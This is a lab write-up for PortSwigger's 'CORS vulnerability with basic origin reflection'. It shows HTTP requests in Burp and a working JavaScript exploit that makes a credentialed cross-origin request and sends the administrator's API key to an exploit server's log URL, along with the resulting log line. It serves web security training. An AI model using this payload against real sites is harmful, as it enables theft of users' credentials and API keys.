 ### Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Logged-in as user _wiener_, API token in profile page /my-account but requested using a GET request to **/accountDetails**, response
```http
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "71j4IP3asNi0t8sjultbCDyHmoTKkOQY",
  "sessions": [
    "T0xKfNW6FI70BZz9ttnyXPQ3xjFQnG8e"
  ]
}
```

2. Tested in Burp Repeater if the remote server accepts any Origin:

```http
GET /accountDetails HTTP/2
Host: 0acd006a0334464d804fe48f00a400e2.web-security-academy.net
Origin: https://exploit-0ad000ec032a46028091e3d001770095.exploit-server.net
Cookie: session=T0xKfNW6FI70BZz9ttnyXPQ3xjFQnG8e
```

```http
HTTP/2 200 OK
Access-Control-Allow-Origin: https://exploit-0ad000ec032a46028091e3d001770095.exploit-server.net
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "71j4IP3asNi0t8sjultbCDyHmoTKkOQY",
  "sessions": [
    "T0xKfNW6FI70BZz9ttnyXPQ3xjFQnG8e"
  ]
}
```

it does...

3. Script to exploit CORS and retrieve the response from **/accountDetails**

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0acd006a0334464d804fe48f00a400e2.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://exploit-0ad000ec032a46028091e3d001770095.exploit-server.net/log?key='+this.responseText;
};
</script>
```

4. Extract API key from response
10.0.3.70       2023-05-22 14:21:20 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22**4B7yTzU5Wglcf1pmWxRKpLagpsR9vku2**%22,%20%20%22sessions%22:%20[%20%20%20%20%22hccCHFJUfgzeRHHkBJRWBTktpecdu9ee%22%20%20]}